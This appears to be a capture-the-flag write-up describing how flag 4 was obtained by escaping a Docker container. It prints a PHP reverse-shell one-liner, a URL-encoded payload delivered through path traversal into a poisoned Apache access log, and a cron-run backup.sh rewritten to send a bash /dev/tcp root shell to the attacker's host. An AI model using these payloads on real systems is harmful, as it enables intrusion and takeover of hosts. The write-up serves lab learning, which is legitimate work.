

[< Back](../../README.md)


Let's use the same strategy used for Flag2, but let's try some different files as the recursive `find` didn't find flag4.

I already have some idea of how to find the flag, we are in a docker machine, indicated by the `.dockerimage` file at the root of the repo. But just to be sure I checked out the hint given in the CTF for flag 4: "This is totally not a docker".

So somehow somewhere we need to access the host machine, after searching a long long time, I finally found something interesting.

I though about any backup system that they might have available, as this is a apache app, it's common practice to leave some kind of backup system in place.

```sh
sudo env /bin/bash -c '
  find / -name "*backup*" -type f;
  echo "Done!" >> /home/output.txt
'
```

**/!\ Until this point** we had trouble setting up a revshell, so we were doing the URL attack, but after reloading the `.ovpn` config file, we were able to set up a revshell on to the host:

```sh
php -r '$sock=fsockopen("10.8.38.215",9001);shell_exec("/bin/bash <&3 >&3 2>&3");'
```

We URL encode the payload, and add the rest of the URL
```
http://[IP]/
  ?end=
  &view=
    teks/../../../../../var/log/apache2/access.log
  &cmd=
    php%20-r%20%27%24sock%3Dfsockopen%28%2210.8.38.215%22%2C9001%29%3Bshell_exec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

Running it gives us the shell onto the machine.

This gave us two files!
```
/opt/backups/backup.tar
/opt/backups/backup.sh
```

After checking what's inside `backup.sh`, we find what we were searching for:
```sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
/bin/bash -i >& /dev/tcp/10.14.36.7/4445 0>&1
```

Looking at the creation date of the `backup.tar` it keeps getting updated.

This means that `backup.sh` is getting executed, like a cron job, though, crontab is not installed, so it's probably from the host machine, we have a way of bridging onto the host.

Let's rewrite `backup.sh` to get a second reverse shell.

```sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
/bin/bash -i >& /dev/tcp/[MY_IP]/444 0>&1
```

And we get a revshell onto the host as root!
<p></p>
